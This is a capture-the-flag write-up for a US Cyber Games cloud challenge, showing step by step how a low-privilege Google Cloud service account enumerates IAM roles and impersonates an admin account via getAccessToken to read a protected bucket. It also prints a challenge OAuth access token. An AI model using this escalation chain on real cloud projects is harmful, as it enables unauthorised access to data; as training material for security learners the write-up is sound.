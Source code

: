 ```yaml
---
title: US Cyber Games [Season 4] - Cloud Storage
date: Mon Jun  3 05:42:00 PM EDT 2024
categories: [Writeup]
tags: [ctf,uscybergames,uscybergames2024,cloud,web,gcloud]
---
```


## Description

Cloud Storage [Misc]

Have you heard about this "cloud" thing that everyone is using? I think we can save a bunch of money by putting our cat photos there!

I have provided a service account key that you can use to authenticate and check that you can access the photos.

That service account shouldn't have access to anything other than the cat pictures, but this whole "eye aye em" thing is a bit confusing, so I'm not entirely sure!

We can't afford to have another data breach, so we need to be confident that our flags are secure before we make the switch.

 [lateral-replica-423406-n3-f892e5bfb33b.json](https://ctfd.uscybergames.com/files/f52f1b2363af0e38e2fb053fd6e42582/lateral-replica-423406-n3-f892e5bfb33b.json?token=eyJ1c2VyX2lkIjozMDg2LCJ0ZWFtX2lkIjpudWxsLCJmaWxlX2lkIjoyMzJ9.Zl4UkQ.iuhcmqn5bWxlx5-jOKapoTfjzQg)

## Solution

The json file seems to be related to Google Cloud storage:
```json
{
    "type": "service_account",
    "project_id": "lateral-replica-423406-n3",
    "private_key_id": "f892e5bfb33b5c946945b97c8827fe7fae7e00e5",
    "private_key": "-----BEGIN PRIVATE KEY----- ... -----END PRIVATE KEY-----\n",
    "client_email": "user-service-account@lateral-replica-423406-n3.iam.gserviceaccount.com",
    "client_id": "105437552107326132543",
    "auth_uri": "https://accounts.google.com/o/oauth2/auth",
    "token_uri": "https://oauth2.googleapis.com/token",
    "auth_provider_x509_cert_url": "https://www.googleapis.com/oauth2/v1/certs",
    "client_x509_cert_url": "https://www.googleapis.com/robot/v1/metadata/x509/user-service-account%40lateral-replica-423406-n3.iam.gserviceaccount.com",
    "universe_domain": "googleapis.com"
}
```

Using `gcloud` CLI load the key and authenticate for access:
```bash
└─$ gcloud auth activate-service-account --key-file=lateral-replica-423406-n3-f892e5bfb33b.json
Activated service account credentials for: [user-service-account@lateral-replica-423406-n3.iam.gserviceaccount.com]
```

List buckets:
```bash
└─$ gsutil ls -p lateral-replica-423406-n3
gs://uscg-2024-bgr-cat-pictures/
gs://uscg-2024-bgr-flags/
```

List files:
```bash
└─$ gsutil ls gs://uscg-2024-bgr-flags/
gs://uscg-2024-bgr-flags/flag.txt
```

We get access denied when trying to copy the flag...
```bash
└─$ gsutil cp gs://uscg-2024-bgr-flags/flag.txt flag.txt
Copying gs://uscg-2024-bgr-flags/flag.txt...
AccessDeniedException: 403 HttpError accessing <https://storage.googleapis.com/download/storage/v1/b/uscg-2024-bgr-flags/o/flag.txt?generation=1715758447583995&alt=media>: response: <{'content-type': 'text/html; charset=UTF-8', 'date': 'Mon, 03 Jun 2024 19:51:21 GMT', 'vary': 'Origin, X-Origin', 'x-guploader-uploadid': 'ABPtcPpkpsrkZLh1qmrHWOiNuz18R7F_uGZHasR114Ucb6a3nHz5HtUNPEk0Sp9Dj0ZRViSYtBg', 'expires': 'Mon, 03 Jun 2024 19:51:21 GMT', 'cache-control': 'private, max-age=0', 'content-length': '230', 'server': 'UploadServer', 'alt-svc': 'h3=":443"; ma=2592000,h3-29=":443"; ma=2592000', 'status': '403'}>, content <user-service-account@lateral-replica-423406-n3.iam.gserviceaccount.com does not have storage.objects.get access to the Google Cloud Storage object. Permission &#39;storage.objects.get&#39; denied on resource (or it may not exist).>
```

We do have access to the other bucket so something else is required to access flag.
```bash
└─$ gsutil cp gs://uscg-2024-bgr-cat-pictures/* .
Copying gs://uscg-2024-bgr-cat-pictures/chaojie-ni-k8yGbX-zhUU-unsplash.jpg...
Copying gs://uscg-2024-bgr-cat-pictures/iosif-chiriluta-7DW8QjFqXBQ-unsplash.jpg...
Copying gs://uscg-2024-bgr-cat-pictures/kevin-wang-EjFskayuR1A-unsplash.jpg...
Copying gs://uscg-2024-bgr-cat-pictures/maksim-koshkin-R4mnEysISeI-unsplash.jpg...
/ [4 files][ 11.9 MiB/ 11.9 MiB]  684.5 KiB/s
Operation completed over 4 objects/11.9 MiB.

└─$ ls -alh *.jpg
Permissions Size User  Date Modified Name
.rw-r--r--  5.9M woyag  3 Jun 15:54   chaojie-ni-k8yGbX-zhUU-unsplash.jpg
.rw-r--r--  1.3M woyag  3 Jun 15:54   iosif-chiriluta-7DW8QjFqXBQ-unsplash.jpg
.rw-r--r--  2.0M woyag  3 Jun 15:54   kevin-wang-EjFskayuR1A-unsplash.jpg
.rw-r--r--  3.3M woyag  3 Jun 15:54   maksim-koshkin-R4mnEysISeI-unsplash.jpg
```

Get `IAM` policy on bucket:
```bash
└─$ gsutil iam get gs://uscg-2024-bgr-flags/
{
  "bindings": [
    {
      "members": [
        "projectEditor:lateral-replica-423406-n3",
        "projectOwner:lateral-replica-423406-n3"
      ],
      "role": "roles/storage.legacyBucketOwner"
    },
    {
      "members": [
        "projectViewer:lateral-replica-423406-n3"
      ],
      "role": "roles/storage.legacyBucketReader"
    },
    {
      "members": [
        "projectEditor:lateral-replica-423406-n3",
        "projectOwner:lateral-replica-423406-n3"
      ],
      "role": "roles/storage.legacyObjectOwner"
    },
    {
      "members": [
        "projectViewer:lateral-replica-423406-n3"
      ],
      "role": "roles/storage.legacyObjectReader"
    },
    {
      "members": [
        "serviceAccount:admin-service-account@lateral-replica-423406-n3.iam.gserviceaccount.com"
      ],
      "role": "roles/storage.objectViewer"
    }
  ],
  "etag": "CAI="
}
```

The only diff seems to be viewer role:
![Cloud Storage](/assets/images/USCyberGames/2024/Cloud Storage.png)
> Note: Left is `flag` bucket, right is `cat-pictures` bucket IAM policy
{: .prompt-info }

Get accounts:
```bash
└─$ gcloud iam service-accounts list --project=lateral-replica-423406-n3
DISPLAY NAME           EMAIL                                                                    DISABLED
admin-service-account  admin-service-account@lateral-replica-423406-n3.iam.gserviceaccount.com  False
user-service-account   user-service-account@lateral-replica-423406-n3.iam.gserviceaccount.com   False
```

List roles:
```bash
└─$ gcloud iam roles list --project=lateral-replica-423406-n3
---
etag: BwYYef-3SNU=
name: projects/lateral-replica-423406-n3/roles/impersonate_admin
title: impersonate_admin
---
description: users can do some things!
etag: BwYYekyQ090=
name: projects/lateral-replica-423406-n3/roles/user_account_permissions
title: user_account_permissions
```

Describe roles:
```bash
└─$ gcloud iam roles describe impersonate_admin --project=lateral-replica-423406-n3 --verbosity=debug
DEBUG: Running [gcloud.iam.roles.describe] with arguments: [--project: "lateral-replica-423406-n3", --verbosity: "debug", ROLE_ID: "impersonate_admin"]
DEBUG: Starting new HTTPS connection (1): iam.googleapis.com:443
DEBUG: https://iam.googleapis.com:443 "GET /v1/projects/lateral-replica-423406-n3/roles/impersonate_admin?alt=json HTTP/1.1" 200 None
DEBUG: Chosen display Format:default
INFO: Display format: "default"
etag: BwYYef-3SNU=
includedPermissions:
- iam.serviceAccounts.getAccessToken
name: projects/lateral-replica-423406-n3/roles/impersonate_admin
stage: ALPHA
title: impersonate_admin

└─$ gcloud iam roles describe user_account_permissions --project=lateral-replica-423406-n3 --verbosity=debug
DEBUG: Running [gcloud.iam.roles.describe] with arguments: [--project: "lateral-replica-423406-n3", --verbosity: "debug", ROLE_ID: "user_account_permissions"]
DEBUG: Starting new HTTPS connection (1): iam.googleapis.com:443
DEBUG: https://iam.googleapis.com:443 "GET /v1/projects/lateral-replica-423406-n3/roles/user_account_permissions?alt=json HTTP/1.1" 200 None
DEBUG: Chosen display Format:default
INFO: Display format: "default"
description: users can do some things!
etag: BwYYekyQ090=
includedPermissions:
- iam.roles.get
- iam.roles.list
- iam.serviceAccounts.getIamPolicy
- iam.serviceAccounts.list
- storage.buckets.get
- storage.buckets.getIamPolicy
- storage.buckets.list
- storage.objects.list
name: projects/lateral-replica-423406-n3/roles/user_account_permissions
stage: ALPHA
title: user_account_permissions
```

Impersonate the admin and get auth token: 
[https://cloud.hacktricks.xyz/pentesting-cloud/gcp-security/gcp-privilege-escalation/gcp-iam-privesc#iam.serviceaccounts.getaccesstoken-iam.serviceaccounts.get](https://cloud.hacktricks.xyz/pentesting-cloud/gcp-security/gcp-privilege-escalation/gcp-iam-privesc#iam.serviceaccounts.getaccesstoken-iam.serviceaccounts.get)
```bash
└─$ gcloud auth print-access-token --impersonate-service-account='admin-service-account@lateral-replica-423406-n3.iam.gserviceaccount.com' --project=lateral-replica-423406-n3
WARNING: This command is using service account impersonation. All API calls will be executed as [admin-service-account@lateral-replica-423406-n3.iam.gserviceaccount.com].
ya29.c.c0AY_VpZi8maVDWeCFgZbkoAPb-D2Crn89fxPvGKB13zTWaREcT1akO0Jr4qY_5xmiDwbsi96umUb3Haba6OuQJ23awTvuXctdXtKJ6ZBW1kV5kX-pQFxaMVHzRfNQH1Ej4jvPc0zGUIL2RRoQTpv-RBO8KLu9fmzYb2yLTLKYmTDF1kH83xHllmwQW-BQRYBZKEiIbX7CrqDj2dXQy2xfDPvzR6CpVwcyPbXuVv8mcpgpfjS1-jD6IcH0vBYQgIe4gCTumXCv8x9Fs_PykLG9lMsiYm5CrFYlaNruAgY8H_Y4c67j9Kmjgkg4Pyu32TjZgHWVn2gxxW4GQG-rTvKo9AbEekFI0KPQclceGyTgDIVLs9Iku8-TrcvoAvU-fc3LzdM5Pf4PFsjEmfgjIOSmArHd4n7HQnINCQk2psxh00yhkKicCclHJmRIwdKR1e8uFO6dqH1Qcsr1HoZT0ipRg8O0DcBAl9BPJEKY10jvpGzqeMJYn3tjEtOObzgpytq_x7k772Qbt9z1446j1JWMl-USwGU7PODN1sMizgQ2z43Bjln2julQlX5xNN7Xr2EKLE_MLakG53h55FCFymSkFctKdcox7UvTfRC6cITmycmZrvvnogN635AQi8FgovxcSpMBIsyg8246zitie1u3f8mXcmqabWW4_vVMQqUlXRc7_-8otZcp8mO5VeBig2e9uSyIX8UyBUhY_l0Wtode1uSal3oR_8VQ7IM4IXo61WUvbvbn9-rf_bjB44av3St6xQa9pzB112ZW6R3t_vYRUM8M8Jjus29OicStnheOmIRrxOfyln4XQQW8YSSrgUU-zSyq7_SwosatSVt1o_yf677xcp-9_JQcZgi9WeobvIcOsVlg9UfIyvw8cV_nae6Wlw6Fg0bqyvuBYBVzxUVgduefggI88Z9teYeImaw9RuFOUip7mwxjUsc8JUZ08Qd68X0kuVtQomQ5qmomuip6Q5_aMWs9reea5fSYWvnljB_z-aXbgn3j_Zl

└─$ ADMIN='admin-service-account@lateral-replica-423406-n3.iam.gserviceaccount.com'
└─$ ACCESS_TOKEN=$(gcloud auth print-access-token --impersonate-service-account="$ADMIN" --project=lateral-replica-423406-n3)
└─$ curl -H "Authorization: Bearer $ACCESS_TOKEN" 'https://storage.googleapis.com/storage/v1/b/uscg-2024-bgr-flags/o/flag.txt?alt=media'
SIVBGR{7h3_51nc3r357_f0rm_0f_fl4773ry}
```

> Note: The file url came from `gsutil cat gs://uscg-2024-bgr-flags/flag.txt` command as it shows resource it tried to access!
{: .prompt-info } 

> Flag: **SIVBGR{7h3_51nc3r357_f0rm_0f_fl4773ry}**
{: .prompt-tip }

---

Resources used:
- [RhinoSecurityLabs: Introduction to GCP Privilege Escalation](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/) (PS: Script didn't work because it needs some manager which doesn't exist on this cloud)
- [Penetration testing skills: Cloud attack related to cloud security](https://www.ddosi.org/cloud-attack/#iamserviceAccountsgetAccessToken) (PS: Plug URL into Google Translate to read in different language 👀)
- [GCP - Services](https://cloud.hacktricks.xyz/pentesting-cloud/gcp-security/gcp-services) (PS: "GCP - IAM, Principals & Org Policies Enum" to be specific)

PPS: This challenge was more discovery rather goto solution, first time encounter with gcloud platform CTF. Do be fun, but commands do be messed up in order D: 